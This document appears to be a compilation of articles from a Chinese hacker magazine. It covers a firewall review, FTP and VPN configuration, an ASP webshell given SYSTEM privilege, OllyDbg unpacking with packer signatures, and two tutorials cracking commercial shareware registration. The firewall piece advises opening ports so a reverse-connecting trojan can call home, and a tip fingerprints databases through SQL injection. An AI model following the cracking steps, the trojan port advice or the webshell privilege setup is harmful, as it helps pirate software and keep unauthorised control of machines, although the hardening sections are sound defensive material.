## 软件防火墙系列之防火墙中的珍品

## HackerSmacker

Rain

- 从本文你可以学到：
- 如何使用防火墙 HackerSmacker
- 屏蔽受限网站
- 如何同时开放多个端口

### 一、前言

如今的网络是越来越不太平，因此上网冲浪自然少不了一个好的防火墙。今天就给大家推荐一款不错的防火墙——HackerSmacker。HackerSmacker 是款个人防火墙，它的特点是简单易用，并且占用资源少；它不仅具有一般网络防火墙的功能，还附带了一些很有用的安全设置。所以正如它的名字一样——Smacker，防火墙中的珍品。

## 二、安装

HackerSmacker 的安装很简单，打开压缩包，运行“setup.exe”进行安装。这过程中会要你输入注册码，不用管它，同时它还会通知你安装的是试用版，有15天的试用期，我们都用默认安装就可以了。安装完成后会弹出如图1所示的提示，要重新启动计算机。我们选“No”，不要重新启动。运行“hb-hackersmacker 3.0.exe”来将防火墙汉化，毕竟汉字用起来容易许多。


## 三、使用

不同于其他的防火墙，HackerSmacker 有一个很好的功能——“程序锁定”。你可以给防火墙加上密码，这样别人无法更改你的防火墙设置，也就能更好地保护系统的安全。它的设置是在“概述”面板里的“设置”选项卡中，选择“设定密码”。这时会弹出设置密码的对话框，如图2所示。


设定好密码以后，一定不要忘记把旁边的那个“启动时自动锁定 HackerSmacker”勾选上，这样别人没有密码就更改不了防火墙的设置了。在 HackerSmacker 的“概述”面板里显示的是防火墙的状态和基本信息，如图3所示。


> 小提示：鼠标点击“统计表”中的各个项目，可以直接转到这个项目的设置页面。

从上面可以看出，HackerSmacker 主要有4个功能，分别是“防火墙”“弹出窗口拦截器”“应用程序控制”和“共享监视器”。我们先来看一下防火墙，这是 HackerSmacker 的主要功能。切换到“防火墙”面板，首先显示的是防火墙的安全级别，对于一般的用户来说，使用默认的“中”就可以了，如图4所示。


怎样才能允许我们的正常服务被访问呢？这就要用到防火墙的“附加设置”。打开“附加设置”，如图5所示。在“附加设置”的“端口管理”里，选中我们允许的服务，这样这些服务就可以被其他人访问了。是不是很像 Windows 自带的防火墙？如果提供的服务列表上没有，或者说你有什么特殊的要求，比如说使用反弹木马啦，一般情况下木马的连接会被防火墙拦截，你的小马就没办法自动上线，这是绝对无法容忍的。那我们就给它添加一条规则来打开木马连接要用的端口。点击图5中的“新建”按钮，会打开一个“端口管理”对话框。在“名称”和“描述”里分别写上这条规则的名字和对它的描述，然后填上木马在本地监听用的端口，别忘了把“开放这些端口”选项选中，如图6所示。这样我们设置的端口防火墙就不会拦截了，不一会儿就会有木马上线了。


> 小提示：这里端口可以写多个，这样防火墙就会同时打开多个端口。

而在后面的“区域设置”和“高级规则”中，你可以定义某一台主机是否可以连接和各端口的连接规则。如果你觉得哪个 IP 是可信任的就把它加进这里，这样防火墙将不会阻止该 IP 的连接；或者你也可以禁止某个 IP 的所有连接，比如当你发现有人在玩命地扫描你的时候，你就可以把他的 IP 禁止，这样他永远也别想连接你的计算机。不过一般没有特殊需要，这里没有必要设置。防火墙的下一个选项卡“应用程序规则”大家应该都很了解了，它监视所有访问网络的程序，然后根据规则设定进行拦截或者放行。当有程序访问网络时，如果这个程序不在程序列表内，防火墙就会弹出提示，询问你是否允许这个程序访问网络，如图7所示。

### 四、总结

总的来说，HackerSmacker 是一款很不错的个人防火墙，通过它你可以有效地保护你的系统不被入侵。对于防火墙，在配置上有许多都很相似，希望大家能举一反三，安装一个强劲的防火墙，从此就可以自由自在地在网上冲浪了。

## 防火墙点评

- 不同于其他的防火墙，HackerSmacker 采用了密码保护，可以防止别人更改防火墙的设置，提高安全性。
- HackerSmacker 占用的系统资源非常少，即使低端配置的计算机，也不会给系统带来多大的负担。
- HackerSmacker 不仅仅是防火墙，它还集成了许多小功能，对计算机的设置和保护有辅助作用。
- 缺点：
- HackerSmacker 没有很好保护机制，可以用任何进程管理软件将防火墙关闭，使计算机失去保护。
- HackerSmacker 的安全级别设置无法更改防火墙的预定义规则，这对于普通用户来说很友好，但对于一些有特殊需要的用户，自定义可能较弱。
- HackerSmacker 阻拦的设置并不是很强，像网址屏蔽，它对 IE 有效，删除共享也有可能会失效，所以只能作为辅助。

## 通过比较分析，配置安全的 FTP 服务器

- 从本文你可以学到：
- FTP 的配置
- NTFS 权限的设置
- IIS 虚拟目录的建立
- 比较分析三种 FTP 配置方法的安全性

## 实验环境

## 检测安全性

运行“ftp 127.0.0.1”，用户选择“white”，密码为空。输入“PWD”后显示当前目录为“/white”。再输入“cd ../”并执行“dir”，可以看到 black 目录，说明 white 可以查看 black 目录内容。


## 小结

FTP 服务器虽然配置成功，但安全性较差，用户能够互访别人的文件。

## 方法二：虚拟目录法

- 新建两个用户 white、black，作为 FTP 登录用户。
- 在 C 盘建立 root 文件夹作为 FTP 根目录并保持为空。
- 在 C 盘新建 `C:\people`，其下建立 white、black 两个文件夹。

## 步骤

建立以 root 为根目录的 FTP 服务器，并在 root 下新建虚拟目录：white 指向 `C:\people\white`，black 指向 `C:\people\black`。

## 检测安全性

使用 white 登录后查看当前目录是 white；执行 `cd ../` 再 `dir`，black 目录未显示。若已知目录名并执行 `cd black` + `PWD`，仍可进入 black 目录，说明仍存在隐患。


## 小结

该配置比前一种更安全，但恶意用户可通过猜测等社会工程方式获取目录名后再访问，仍不理想。

> 小提示：通过猜测文件名来访问对方文件在实战中很常见；若猜测成功，往往取决于社会工程能力。

## 方法三：虚拟目录 + NTFS 权限法

在方法二基础上改进，要求 C 盘分区为 NTFS 格式。

- 禁止“使用简单文件共享”（工具→文件夹选项→查看）。
- 打开 `C:\people` 下 white 文件夹属性→安全，保留 administrators 与 white，删除其他用户；并取消“从父项继承权限”，必要时将 white 权限设为读取/写入/修改（black 同理）。


## 测试安全性

再次使用 white 登录：`cd ../` 后 `dir` 不显示 black；执行 `cd black` 会提示拒绝访问（550），说明隔离成功。


### 总结

通过结合 IIS 虚拟目录与 NTFS 权限限制，可显著提升 FTP 安全性，避免用户跨目录访问。

> NTFS 的磁盘配额限制磁盘空间的使用。各位寻寻觅觅的菜鸟们，要想玩黑，记得要先把自己给保护好，攻防结合你会受益匪浅的。学习在于实践，各位读者一定要多练。文章难免存在差错，在下愿听各位赐教。

> 编者按：我很喜欢这篇文章，作者通过实际例子的对比来介绍 FTP 安全配置的重要性，而不是像一些文章只是纸上谈兵。发表该文章的目的在于让初学者对其深入形象地了解，实践才是验证真理的最好方法，望初学者能多动手、多想，这样才能成为高手。

## 远程接入大型网络解决方案之 VPN

evilangel

- 从本文你可以学到：
- 虚拟专用网络市场需求
- 大型网络 VPN 的解决方案
- 虚拟专用网络安全配置

随着 Internet 的普及和信息化的发展，各行业依靠计算机网络来开展当前业务已经不是什么新鲜事了。稍具规模的公司都会有些分公司、办事处、工厂及各地区子公司。由于物理地域的问题，怎么利用现有的 Internet 更好地规划、更好地组织来开展商务活动，已是企业必须解决的问题，而 VPN 技术的产生也正解决了此问题。

## VPN（virtual private network）简介

VPN 的中文意思是虚拟专用网络，它是应用户的需求诞生和发展起来的。VPN 是允许两个或多个网络利用 Internet 联合成一个大的“局域网”。如图1所示，两个局域网并不会因物理位置的变化而增加成本，而且利用各种加密算法形成通信干线，保证数据的完整性、机密性和可靠性。VPN 的网络具有很强的灵活性，无论用户身处何地还是 ISP 更换，都不会影响 VPN 网络的正常使用。


VPN 支持点对点、点对多点，同样也支持各种设备同时接入，如图2所示。图中描绘的是一个公司的各分支机构及远程工作人员，通过不同设备使用 VPN 技术利用 Internet 接入总公司办公，形成一个大的“局域网”。当然也可以把一些商业伙伴或其他子公司一同接入到总公司的内部网络。

网络不使用 VPN 时，当两个网络想连接在一起时，也可以采取专线及 Frame 等方式。但是专线的费用是很高的，灵活性也比较差，比如要加个接点就要去 ISP 申请，而且是广域网的管理，当更换 ISP 时也会很麻烦。而 VPN 的费用只是两端接入 Internet 的费用，而且是局域网的管理，也印证了之前的特性。

## 组建 VPN 网络的相关要求

构建 VPN 网络，需要接入各方均可接入互联网，向当地 ISP（网络服务提供商）或 NIC（网络信息中心）申请即可，包括 DSL（如 ADSL）、异步拨号等。

VPN 可以作用在防火墙、路由器、VPN 专用设备、服务器或普通 PC 机上，并且支持多点连接，组建方式非常灵活方便，如图3所示。


## VPN 方案应当能够满足的要求

一般来说，企业在选用一种远程网络互联方案时，都希望能够对访问企业资源和信息的要求加以控制，以免出现瓶颈或浪费。同样也会考虑到数据经过互联网时信息是否安全，是否会被职业黑客或同行业的网络间谍所截取的问题。所以组建 VPN 一般必须满足如下要求：

> 小提示：网络出现瓶颈主要是指网络带宽不够用或没有一个好的网络规划。

- 用户验证：VPN 方案必须能够验证用户身份，并严格控制只有授权用户才能访问 VPN。我们的验证可以使用 ACL（访问控制列表）实现，或可连接物理地址作为限制。
- 地址管理：VPN 方案必须能够为用户分配专用的网络地址并确保地址的安全性。
- 数据加密：如果数据是商业性的或重要数据，那就必须要加密，以使中间人无法解密截获明文信息。但是在 VPN 网络里不一定非要加密，加密会加剧 CPU 的运算时间。
- 密钥管理：VPN 方案必须能够生成并定期更新双方的加密密钥，这个“双方”单指两个局域网做 VPN 的设备。

## 5、多协议支持

在做 VPN 配置之前，必须要了解网络都需要使用什么协议。方案必须支持公网上普遍使用的基本协议，包括 IP、IPX 等。以点对点隧道协议（PPTP）或第2层隧道协议（L2TP，不支持加密）为基础的 VPN 方案，既能满足以上所有基本要求，又能充分利用遍及世界各地的 Internet 互联网优势。其他方案，包括安全 IP 协议（IPSec），虽然不能满足上述全部要求，但是可以满足大多数网络要求。

## VPN具体应用方案实例

在组建方案中，我们主要以两端接入设备全部是路由器来演示。首先要保证两个网络是可以通信的，如果不能通信那 VPN 也是不可能成功的（好像有点废话），用 ping 命令测试一下，如图4、图5所示。

> 在路由器上 ping 测试以“!!!!!”来表示通过，如果有“.”号出现，则代表数据包丢包；如果全都是“.”号那就说明它们 ping 不通啦！图5是在路由器上的一个扩展 ping 命令，可以指定目标地址及源地址，10.1.1.254 是路由的一个接口地址，而 192.168.1.2 也是一个接口地址，但它同时也是管理地址。

> **组网物理设备说明**

A 网络：

网络子网为 10.1.1.0/24。  
路由器静态 IP 地址为：218.61.x.12。

B 网络：

网络子网为 10.1.2.0/24。  
路由器静态 IP 地址为：218.25.x.3。

## 配置 VPN 需要执行如下步骤：

- 首先确定一个预先共享的密钥（保密密码）。在这个实例中，假设我们事先商定的保密密码为 nohack，这是两个网络事先商定好的，并且两端配置必须相同。
- 为 SA 协商过程配置 IKE。SA（Security Association），安全关联；IKE（Internet Key Exchange），Internet 密钥交换。
- 配置 IPSec，我们假设只需要 IP 功能验证。

## TASK 1：配置 IKE

```text
R5.S.VPN(config)#crypto isakmp enable
R5.S.VPN(config)#crypto isakmp policy 10
R5.S.VPN(config-isakmp)#authentication pre-share
R5.S.VPN(config-isakmp)#group 1
```


```text
R5.S.VPN(config-isakmp)#lifetime 72000
```

对生成新 SA（Security Association）的周期进行调整。这个值以秒为单位，如果我们不进行配置，默认为 lifetime 86400，也就是一天。这个必须双方设备设置相同的时间，否则 VPN 在正常初始化之后，将会在较短的一个 SA 周期到达时中断。运行 EXIT 命令退出 isakmp 配置模式，返回全局设置模式。

```text
R5.S.VPN(config)#crypto isakmp key nohack address 218.25.x.3
```

我们在此指定事先商定的密钥“nohack”，并指定 VPN 另一端路由器 IP 地址 218.25.x.3。至此也出现了第一条命令不同的地方：双方路由器在之前的命令必须一致，而这条必须指定相互双方的 IP 地址。

## TASK 2：配置 IPSec

```text
R5.S.VPN(config)#access-list 120 permit ip 10.1.1.0 0.0.0.255 10.1.2.0 0.0.0.255
R5.S.VPN(config)#crypto ipsec transform-set ciscovpn esp-des
```Ciscovpn 是为这种选项组合所定义的名称。在两端的路由器上，这个名称可以相同，也可以不同。

```
R5.S.VPN(config)#crypto map string 120 ipsec-isakmp
```

以上命令为定义生成新保密密钥的周期。如果黑客破解了我们的保密密钥，他就可以读取使用同一个密钥的所有通信，网络传输的数据安全也就不能得到保证。基于这个原因，我们要设置一个较短的密钥更新周期，比如每两分钟生成一个新密钥，使黑客没有足够的时间来破解。参数 string 是我们给这个配置定义的名称，句子可以自定义，以后我们要把它与路由器的外部接口建立关联。

```
R5.S.VPN(config-crypto-map)#set peer 218.25.x.3
```

这是指定对方路由器的 IP 地址，对方也要相应指定本路由器的 IP 地址。

```
R5.S.VPN(config-crypto-map)#set transform-set ciscovpn
R5.S.VPN(config-crypto-map)#match address 120
```

这两个命令分别标识用于这个连接的传输设置和访问列表。

```
R5.S.VPN(config)#interface serial 0
R5.S.VPN(config-if)#crypto map string
```

将刚定义的密码图应用到路由器的外部接口“crypto map string 120 ipsec-isakmp”上。

很多朋友按这个配置后发现 VPN 还是不成功，有的和一些资料上一字不差地配置下来也是同样，怎么办呢？以上只是个标准的 VPN 配置，但它没有和实践结合起来。我们看一下它访问列表的配置：`access-list 120 permit ip 10.1.1.0 0.0.0.255 10.1.2.0 0.0.0.255`，它只允许 IP 通过 VPN 的 Tunnel（隧道），如果是路由器运行的路由协议所发的交换路由信息的包不就不能通过了吗？比如路由使用 RIP version 2 协议（使用 UDP 520 端口），ISAKMP 的交换信息也不可能通过！我们还需要在访问列表加上如下条目，允许双方交换信息。具体路由器要通过什么协议则要根据你的实际情况而定。

```
access-list 120 permit esp host 218.25.x.3 host 218.61.x.12
access-list 120 permit udp host 218.25.x.3 host 218.61.x.12 eq rip
access-list 120 permit udp host 218.25.x.3 host 218.61.x.12 eq isakmp
```

而对端设备也做相同的配置，VPN 就配置成功了，但要注意的是，在我提到的几点不同之处改成相应的信息即可。主要方法可以参照上面的内容。这时我们可以在本机来 ping 测试对方内网服务器地址，如图 6 所示。


从上图中的 TTL 值可以看出 ICMP 包一共经过了三台网关设备。这样一来我们就可以使用内部地址来访问不同物理网络的资源了。

## 打造服务器管理员的 ASP 木马

- 1. 设置文件及文件夹的权限
- 2. ASP 木马的另类应用

题目感觉有些矛盾，但没办法，ASP 木马已经成了一个贬义词。何谓 ASP 木马？其实 ASP 木马原身就是网站管理程序，正如鲁迅先生说的：“世上本没有路，走的人多了，也便成了路。”大量的 ASP 网站管理程序被修改成入侵网站的工具，ASP 木马便是乎，ASP 网站管理程序就成了 ASP 木马，也成了众矢之的！

通常情况下，ASP 木马的权限是 WEBSHELL——网络权限，在设置不严的服务器内可以浏览其他磁盘的文件，可以运行 CMD 程序。但这些权限仅相当于服务器内的 USERS 权限，如何把 ASP 木马的权限提升为 SYSTEMSHELL——系统权限，先来看一下百度的回答！答案似乎很统一，把解释 ASP 脚本的“asp.dll”添加进 /W3SVC/InProcessIsapiApps 里面，这样 ASP 程序就具有超级权限了。

跟着来看，不仅管理员自己的 ASP 网站管理程序具有超级权限，入侵者的 ASP 程序同样也具有超级权限，这样的后果是很严重的！如何让 ASP 木马既具有超级权限，又唯我独用呢？

## 一、WIN2003 服务器

先来介绍一下环境。WIN2003 服务器是按照《黑客手册》2005 年 10 月刊“奔奔 WIN2003 服务器管理员”的方法来配置的，大致如下：网站目录外的磁盘的权限是 SYSTEM+Administrators，系统盘内的一些敏感程序如 CMD.EXE、NET.EXE 等的权限设置的也是 SYSTEM+Administrators；网站内各目录的访问权限为不同用户。在这种环境下，上传的 ASP 木马将被局限于上传目录内，无法发挥出 ASP 程序的功能。

看过环境，再来亮一下工具。本想用海洋或桂林老兵的网站助手，无奈名气太大，即使采取加密化妆，也被杀毒软件一眼就认了出来。幸好偶手头有一款“程序网络工作组 ASP 站长助手”，为了增加功能，偶又把桂林老兵网站助手 6.0 的 CMD 代码修改后加入其中，用杀毒软件试了一下，可以通过，以下暂命名为 jm.asp。

OK，在网站 BBS 目录内新建 sys 文件夹，把这款 jm.asp 保存到其中，输入 URL 地址：`http://127.0.0.1/bbs/sys/jm.asp`，登录，使用增加的 CMD 功能，输入 `net user` 查看服务器内用户列表，结果可想而知，返回的是“拒绝访问”。如何让这款 ASP 木马具有系统权限，成为管理员的助手呢？

### 第一步：设置目录权限

打开 SYS 目录的“属性”窗口，切换至“安全”选项，如图 1 所示。因为 ASP 文件要唯我独用，所以要先对此目录进行权限设置。依次点击“高级”→在“sys 的高级安全设置”窗口内，去除“允许父项的继承权限传播到该对象和所有子对象”选项，并在弹出的“安全”窗口中点击“复制”，接下来删除“权限项目”中的组或用户名（全部删除）→点击“添加”→点击“选择用户或组”中的“高级”→“立即查找”→选择自己的管理员账户（也可添加 Administrators 组）→点“确定”返回到“sys 权限项目”窗口→选择“允许”项的“完全控制”→点“确定”返回到“sys 的高级安全设置”→点“确定”返回到“sys 属性窗口”，如图 2 所示，权限设置完成，管理员 JM 对 SYS 目录具有完全控制权限。


### 第二步：创建程序池

起初测试时，偶以为将文件设置为管理员权限，那么在访问时，应该也是管理员的身份了。但结果呢，权限是大了一点，可以操作磁盘中的文件及文件夹，但 CMD 程序还是不能运行，权限不够啊！于是偶又在“Internet 信息服务（IIS）管理器”中乱翻，结果一不小心掉进一个池里^^。

在 IIS 6.0 中，应用程序池的作用就是为了将每个程序的工作进程隔离。偶是这样理解的，应用程序池就像一个一个的小池子，每个程序在默认情况下运行于自己的池子内，在该池子里，随你程序怎么折腾，只要管理员不允许你越池一步，程序的活动空间最终还是局限于该池子内，这样既保证了程序的正常运行，也增加了网站的安全性。

如果把程序池中的“自定义账户”设置为管理员 JM，是不是就可以让 jm.asp 达到超级权限呢？测试后发现偶的想法是不行的！不过，偶在程序池的“预定义账户”中发现其有三种类型：

- 1. 网络服务（NetworkService）
- 2. 本地服务（LocalService）
- 3. 本地系统（LocalSystem）

在 IIS 6.0 的默认配置中，“预定义账户”是“网络服务”账户，拥有低级别的用户访问权限，此用户就相当于澡堂中的服务生，只有放水的权限。而“本地服务”的权限则比“网络服务”大一些，相当于领班吧！“本地系统”呢，权限就更大了，应该属于老板级的，可以让用户到任意池中游泳，包括贵宾池呦！

看来没有白掉进池里，呵呵！下面就来创建程序池。在“应用程序池”上点右键，选择“新建”→“应用程序池”，如图 3 所示，设定程序池的 ID 为 sys。


打开 sys 的属性窗口，切换至“标识”选项，如图 4 所示。


将“预定义账户”更改为“本地系统”，点“确定”保存，这时会弹出如图 5 所示的窗口，从这些提示信息中，也可以看出“本地系统”账户具有很高的权限。

### 第三步：设置 WEB 目录

应用程序池设置完成后，接下来就是设置 WEB 目录。展开 IIS 管理器控制树中的“网站”→“BBS”→“SYS”，打开 SYS 的属性窗口，点击“应用程序设置”中的“创建”按钮，为该目录创建一个程序，名称按默认，关键步骤是选择“sys”为当前“SYS”目录的“应用程序池”，如图 6 所示。


为了增加安全性，还要打开其属性窗口中的“目录安全性”选项，点击“编辑”按钮，将“身份验证方法”窗口内“启用匿名访问”前的对勾去除。

经过以上三步的设置，再次打开 jm.asp，在网页未打开之前弹出了用户验证窗口，如图 7 所示。


这里要输入管理员 JM 的名称及密码，因为只有此用户才有权限访问该文件。验证通过后，打开的是 ASP 登录页面，输入自定义的登录密码就可以进入 ASP 管理页面了。接下来仍用 CMD 功能测试，输入增加用户命令 `net user aa /add`，如图 8 所示，命令成功完成。

更换命令为：`net user`，如图 9 所示，服务器内的用户尽现眼前，用户 aa 也在其中之列。


图 8


图 9

又测试一下其他需管理员权限才能运行的命令，均执行成功。哈哈，WIN2003 下 SYSTEM 权限的 ASP 木马打造成功！

## 二、WIN2000 服务器

说过了 WIN2003，再来看 WIN2000 服务器。其 IIS 采用的是 5.0 版本，当然也就没有程序池了。如何让 WIN2000 服务器中的 ASP 程序也具有 SYSTEM 权限呢？

### 第一步：设置目录权限

首先在网站 BBS 下新建一个 sys 目录，并将 jm.asp 拷至其中，接下来设置该目录的权限，方法步骤和 WIN2003 中一样，最后的结果如图 10 所示，该目录权限仅赋予管理员 JM。


图 10

### 第二步：设置 WEB 目录

打开“Internet 信息服务”，展开 WEB 站点控制树至 BBS 下的 sys，打开其属性窗口。在 IIS 5.0 中，虽然没有程序池，但它也有“应用程序保护”这一项。在其“应用程序保护”中，有三种级别：

- 1. 高（独立的）
- 2. 中（共用的）
- 3. 低（IIS 进程）

这三种就是 IIS 5.0 的应用程序保护级别，它们和 IIS 6.0 中应用程序池“预定义账户”的三种类型有异曲同工之妙，都是采取隔离方式，让应用程序运行在各自的内存空间，就像在各自的池子中游泳一样。

这三种级别的对应关系是：IIS6.0 网络服务类似于 IIS5.0 高级别，IIS6.0 本地服务类似于 IIS5.0 中级别，IIS6.0 本地系统类似于 IIS5.0 低级别。由此得出，将应用程序保护选择为“低（IIS 进程）”级别，就可以拥有最高的权限，如图 11 所示。除了设置应用程序保护外，还要去除“目录安全性”中的“匿名访问”权限，以增加安全性。

OK！WIN2000 只需两步就设置完成了。测试一下，输入 URL 地址：`http://127.0.0.1/bbs/sys/jm.asp`，和 WIN2003 中的情形一样，先出现的是用户验证窗口，输入管理员 JM 的名称及密码，验证通过后再输入登录密码进入 ASP 管理页面。为了能直观地看到 ASP 的权限，这里仍是用 CMD 窗口来测试。在其中输入增加用户命令：`net user nohack /add`，返回的是“命令成功完成”，再用 `net user` 查看一下用户，如图 12 所示，WIN2000 系统下的测试也成功通过。

经过偶的这么一番努力，ASP 程序的权限终于从 WEBSHELL 提升为 SYSTEMSHELL 了！并且权限归属还可以做到唯一呢！对于关闭终端 3389 连接的服务器，管理员就可以通过 80 端口来管理服务器了，呵呵，让 ASP 木马成为管理员的助手，有点另类吧！

【文章中所涉及的 ASP 木马，已经收录在光盘中】

经过作者的一番调教，类似 ASP 的这类木马终于改邪归正了。如果你的木马功能够强大，则是可以代替那些昂贵的远程控制软件！


图 11


图 12

> 【雕虫小技之脚本专辑】  
> 当错误提示关闭的时候，如果很难分辨对方的后台数据库是 Access 还是 MSSQL Server 的话，可以通过系统变量去判断对方的数据库系统；或者最简单的就是直接在后面加上注释如 `--adddddd`，如果正常返回就是 SQL Server 啦，因为 Access 是不支持注释的！  
> 有的时候上网怕中木马，就可以新建立一个账户专门用于平时的上网等危险操作，这样当对方的网页木马运行的时候就会失败，因为这些网页木马大部分都会对系统进行操作，而因为权限不够当然就失效啦！

做完这个栏目的编辑工作后拿起以前的 NoHack 看，习惯性地看看以前这个栏目的内容，发现一个很明显的特点是：我们大家破的目标都是自己要用的、身边的或者是其他和自己密切相关的东西。于是小编就猜测，破解应该算是被逼出来的吧！要是都不要钱注册什么的，应该就没那么多的 CRACKER 了吧！其实我自己是很喜欢免费和共享的，只是那样的话写软件的人估计就要没饭吃咯，所以在此提醒大家：遵守职业道德，别把破解用于商业用途。

## OllyDbg 2.0 界面预览

估计大家很久前就开始关注这个 OD2.0 版本了，虽然说要公布的话已经在 CRACKER 界热传了很久，但是至少现在还没有多少人用过，哪怕是它的内测版本。不知道它到底会给我们带来哪些惊喜，确实很值得我们期待。不过，小编为了给大家解解馋，先拿到了它的一个主界面截图（图 1）。朋友们可以望梅止渴先（在小编看来，和前面一个 ICE 版本的主界面变化仿佛不大）。


## Aspack Stripper v2.12 发布

stripper_2.12 可以全自动脱 Aspack、ASProtect 以及 Alexey Solodovnikov 公司目前为止所有的壳，支持 EXE 和 DLL 文件，工作平台为 Windows 2000/XP/NT。这个是最新的版本，才发布的（如图 2），小编在光盘中已经为大家提供了，大家可以试下。


## 功能比 eXeScope 强大的 ResScope 1.9.5

一个类似 eXeScope 的软件资源分析和编辑工具，功能已超过 eXeScope。它使用内存载入资源分析，所以被分析的程序并未被退出，在分析期间仍可使用；拥有最出色的资源分析技术；内置的文字编辑器与 16 进制编辑器是由较低层的控件编写的，使资源载入更快、编辑更方便；拥有最出色的资源预览技术，可以创建预览的菜单和对话框（如图 3）。


> （文章中说到的 Aspack Stripper v2.12 和 ResScope 1.9.5 在光盘里有收录）

## OllyDbg 手动脱壳及其部分壳的特征码

一般认为手动脱壳的关键是找到软件的真正入口 OEP，但是用 OllyDbg 脱壳，知道软件的真正入口 OEP 并不能解决问题。因为 OllyDbg 的工作原理和 SoftICE、TRW2000 等有所不同，在 OEP 未解压以前是不能在 OEP 上设断的，因此用 OllyDbg 脱壳的关键是让程序中断在 OEP，一旦中断在 OEP 脱壳就告完成。如何让程序中断在 OEP 呢？这里小结两种方法并附部分常见壳的特征码。

- 1. **方法一**：用 OllyDbg 载入程序，在第 1 个消息框点 Yes，第 2 个消息框点 No，程序停在入口处 EP（注意不是 OEP）；`Ctrl+B`，在 Hex 中输入壳的入口特征代码（如 UPX `61 E9`），回车。  
  - `popad`  
  - 看到入口点 `jmp xxxxxx`  
  - 在此行设断（F2 或光标移到该行按 F4），F9，F8 走 1~2 下，来到入口点，用 OllyDbg 插件 dump 进程或 dump 程序。
- 2. **方法二**：用于某些入口点附近代码被压缩的程序。用 OllyDbg 载入程序，第 1 个消息框点 Yes，第 2 个消息框点 No，`Ctrl+B`，在 Hex 中输入壳入口特征代码（如 UPX `61 E9`），回车，找不到：  
  - `popad`  
  - `jmp xxxxxx`  
  再采用其他特征码定位。

| 壳名称 | 版本相应的特征代码 |
|---|---|
| Asprotect 1.0 以下 | EB 02 EB E8 61 EB 01 |
| Asprotect 1.2 | 61 FF E0 |
| ASPack 2.0 以下 | 61 75 08 B8 |
| PECompact 1.33 | 61 9D 50 68 |
| Petite 2.1/2.2 | 61 66 9D 83 C4 |
| PE-pack all | 89 44 24 1C 61 FF E0 |
| Armadillo 2.51 | 03 F9 E8 A9 EE FF |
| Armadillo 2.52 | 03 F9 E8 2D EE FF |
| VBox 4.6.5CD | 20 FF E3 |
| ASPack 2.12 | B8 01 00 00 00 C2 |
| UPX 1.20w | 61 E9 |
| Telock 0.71 | 61 FF 64 24 DC |
| Exe32Pack 1.3x | E9 5E FE FF FF |

## SHELLCODE：为了你，我做了英语阅读专家

- 从本文你可以学到：
- 破解软件的基本流程
- 几款破解工具的使用
- 注册机的制作

最近偶正在学习写 Shellcode，今天从网上下载了一篇关于 Shellcode 的经典文章，可是一打开，顿时傻眼了，整篇文章，我只认识几个单词，汗……所以，偶就下载一款软件——英语阅读专家。没办法，只能这样快速“催化”了。

打开软件，啊！要注册！不然有限制。无奈最近囊中羞涩……那就自己破解吧！

## 一、破解步步通

先看看偶准备的工具：PEiD，OllyDbg，ImportREC 1.6，W32Dasm。工具有了，我们一步步地来分析破解吧！

### Step 1

用 PEiD 载入程序，如图1所示，显示有壳。


#### Step 2

用 OD 载入程序，有加了壳的提示，点确定，程序断在入口点 00692203 处。

```asm
00692203 > 9C              pushfd
00692204   60              pusha
00692205   BD C7E82800     mov ebp,28E8C7
...
0069220A   01A0 4C3A4000   add dword ptr ss:[ebp+403A4C],ebp
...
00692218   FF95 803A4000   call dword ptr ss:[ebp+403A80]
```

这时候就可以用 ESP 定律，在命令行输入 `dd esp` 回车，用鼠标选中 0012FFC4 转存处的 4 个字节，右键→断点→设置硬件访问断点→Dword，如图2所示。


程序断在 006D023F 处，我们看到下面的代码，分析一下：

```asm
006D023F   9D              popfd
006D0240   BA 40EA6400     mov edx,64EA40
006D0245   FFE2            jmp edx
...
0046EA50   55              push ebp
0046EA51   8BEC            mov ebp,esp
0046EA53   83C4 F0         add esp,-10
0046EA56   53              push ebx
```

#### Step 3

脱壳后的程序，运行提示出错，用 ImportREC 1.6 载入，OEP 填 0046EA50，点 Fix Dump 修复输入表，如图3。脱壳后的程序正常运行，看到是用 DELPHI 编写的。


### Step 4

运行改装后的程序，随意输入注册码，我这里输入的是 www.nohack.cn，点注册，有错误提示，如图4所示。

### Step 5

再次用 W32Dasm 载入脱壳后的程序，找到注册错误的地方，如下这些代码：

```asm
0064A37C E8436E2FFF call 0046D8BC   ; 注册码
0064A37B 8B45FC     mov eax,dword ptr [ebp-04]
0064A37B 8B55F8     mov edx,dword ptr [ebp-08] ; 假注册码
0064A37E E81AFDBFFF call 00405364   ; 关键CALL
0064A383 752B       jne 0064A3B0    ; 关键跳转
...
Possible StringData Ref from Code Obj -> 'RegisterCode'
...
Possible StringData Ref from Code Obj -> '注册成功，请重启软件，你可以使用本软件的所有功能'
...
Possible StringData Ref from Code Obj -> '注册码不正确，请重新输入'
```

## 二、制作注册机

既然晓得了注册码在什么地方，现在就可以制作注册机了，很简单的，唤出 keymaker，如图7所示，设置好参数，图8就是偶做的注册机了。


## 用 OLLYDBG 简单搞定 IE 代理管家

@nyele

- 从本文你可以学到：
- 了解到 IE 代理管家的基本功能
- 使用 OD 破解软件的基本步骤

浏览不同的站点有可能需要不同的代理服务器，今天能用的代理明天可能就无法用了。这样一来就需要你经常更换或修改代理服务器的地址，比较麻烦。一直在寻找有没有什么软件能比较方便地实现代理转换，最近在网上游来游去，看见 IE 代理管家好像正好符合我的要求，下来一看，功能果然不错，如下：

- IE 代理管家提供代理服务器地址的添加、修改、删除、导入、导出；导出文件可导入代理猎手进行检测，并支持代理猎手导出文件直接导入。
- 无须重新启动 IE 浏览器即可让代理设置生效，可以使用指定时间间隔循环使用所有代理服务器，使你真正实现在网络上隐身。
- IE 代理管家内带 5 个免费代理服务器地址，可让你轻松访问国内外所有网站。注册用户还可定期得到免费代理服务器地址。

看了功能简介觉得很合适，就打算使用它了，但没注册的用户只能使用 20 次。限制，又是限制！哎～只有看看怎么破解它了。


### Step 1

用 OLLYDBG 载入，按 F9 运行，随便输入注册码，如图1所示我输入的是 123456。


#### Step 2

先不点注册，回到 OLLYDBG 窗口，按 ALT+E，在对话框内找到 MSVBVM60.DLL，双击它来到图2显示的位置。

#### Step 3

再按 CTRL+N，在打开的窗口里找到 `_vbastrcomp`，光标点一下后按 F2 设置断点，如图3所示。


### Step 4

回到软件的注册窗口，点一下“注册”，呵呵！看看 OllyDbg 的右下角，注册码被拦截了下来，如图4所示。


点击选中显示注册码的行，然后 Ctrl+C 复制，再 Ctrl+V 粘贴到文本保存。好了，现在你就用这个注册码去注册吧！

## NoHACK 论坛贴吧

